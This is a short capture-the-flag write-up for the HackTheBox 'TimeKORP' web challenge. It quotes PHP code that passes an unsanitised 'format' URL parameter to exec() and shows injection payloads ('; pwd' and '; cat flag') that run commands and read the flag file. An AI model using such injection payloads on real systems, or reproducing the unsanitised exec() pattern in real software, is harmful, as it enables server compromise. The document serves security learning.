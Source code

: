 ## TimeKORP

### Preparation
* Spawn the docker image
* Download and extract the files. Password is `hackthebox`

### Analysis
* There's a flag file with text `HTB{f4k3_fl4g_f0r_t35t1ng}` but that's not the real flag.
* Upon clicking "What's the Date", we discover the "format" parameter in the URL.
<img width="709" alt="image" src="https://github.com/user-attachments/assets/1af2520b-16f2-4e1d-ac8c-df420342b9fe">

* Following up the usage of `format` parameter, we land at
  
```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
* It simply constructs a `command` and invokes `exec` function. It doesn't try to sanitise the input. This means we can try executing any command line script.
* Let's try a `pwd` - URL/?format=%27;%20pwd%27
<img width="709" alt="image" src="https://github.com/user-attachments/assets/11bc3c9a-ce9a-4080-b4d3-b322b141d5f4">

* From the `Dockerfile` we see that the flag file is at the root.
```
# Copy flag
COPY flag /flag
```
* Executing URL/?format=%27;%20cat%20flag%27 prints the flag.
<img width="671" alt="image" src="https://github.com/user-attachments/assets/248637a1-6b05-48a2-b0c6-d65fac7cf09a">


